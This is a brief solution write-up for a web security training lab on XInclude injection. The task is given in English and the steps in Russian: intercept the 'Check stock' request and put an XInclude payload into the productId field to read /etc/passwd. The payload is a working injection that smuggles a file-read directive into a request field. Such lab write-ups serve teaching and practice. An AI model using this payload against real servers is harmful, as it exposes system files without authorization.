

```
Lab: Exploiting XInclude to retrieve files
Задача:   This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file.  
Решение:
```
- Выбираем любой продукт

- Нажимаем "check stock"

- Перехватываем нужный нам запрос и отправляем в repeater

- Меняем значение productid на ```"<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo> "``` и получаем содержимое нужного нам файла

- Получаем подтверждение успешного завершения

